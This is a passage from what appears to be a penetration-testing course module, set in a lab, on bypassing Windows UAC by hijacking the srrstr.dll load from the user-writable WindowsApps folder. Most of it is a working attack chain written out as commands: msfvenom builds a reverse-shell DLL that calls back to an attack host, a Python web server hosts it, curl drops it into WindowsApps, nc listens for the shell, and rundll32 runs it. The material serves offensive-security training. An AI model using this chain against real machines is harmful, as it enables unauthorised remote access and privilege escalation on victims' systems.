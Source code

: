 1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32` for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System` (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.

### Reviewing Path Variable

The `WindowsApps` folder is within the user's profile and writable by the user.
```powershell-session
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

### Generating Malicious srrstr.dll DLL
```shell-session
ldland4958@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

### Starting Python HTTP Server on the Attack Host
```shell-session
$ sudo python3 -m http.server 8080
```

### Downloading DLL to the Target
```powershell-session
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

### Starting nc Listener on Attack Host
```shell-session
$ nc -lvnp 8443
```

### Testing Connection

If we execute the malicious `srrstr.dll` file, we will receive a shell back showing normal user rights (UAC enabled). To test this, we can run the DLL using `rundll32.exe` to get a reverse shell connection.
```cmd-session
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
